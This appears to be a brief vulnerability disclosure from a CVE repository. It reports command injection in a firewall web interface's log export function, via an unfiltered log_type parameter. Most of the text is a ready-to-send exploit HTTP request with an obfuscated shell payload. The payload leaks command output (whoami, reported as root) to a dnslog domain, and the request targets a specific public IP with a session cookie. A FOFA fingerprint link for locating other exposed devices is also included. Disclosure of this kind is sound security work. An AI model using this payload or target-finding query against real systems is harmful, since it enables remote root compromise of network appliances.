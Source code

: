 # code exec
In `webui/modules/log/fw_security.mds` after accepting the log_type parameter, without any filtering, it is directly spliced into the $table variable, and passed into exec, resulting in code execution.
![image](https://github.com/night-0p/CVE/assets/54882616/3fd651bf-98e3-4e86-a844-0f42f3099088)
test steps:  
1， First obtain a dnslog domain name through http://dnslog.cn/  
2，send exp:  
```
GET /webui/?g=log_fw_export&log_type=%26/bin/?ing${IFS}`whoami`.9ud6dz.dnslog.cn HTTP/1.1
Host: 183.230.154.102:4443
Cookie: USGSESSID=8944257a6431dd049e456e23cf40833b
Sec-Ch-Ua: "Chromium";v="116", "Not)A;Brand";v="24", "Google Chrome";v="116"
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Origin: https://183.230.154.102:4443
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://183.230.154.102:4443/login.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
The following is the result of executing `whoami`. root authority.  
<img width="1247" alt="image" src="https://github.com/night-0p/CVE/assets/54882616/4fc5085b-9000-4283-a242-b557c69b2bba">  
this Website fingerprinting:  
https://fofa.info/result?qbase64=YXBwPSLlronmgZLkv6Hmga8t5piO5b6h5a6J5YWo572R5YWzIg%3D%3D
this version:  
<img width="1068" alt="image" src="https://github.com/night-0p/anh/assets/54882616/9ba496ab-38e8-41ad-888c-c27a2632989e">

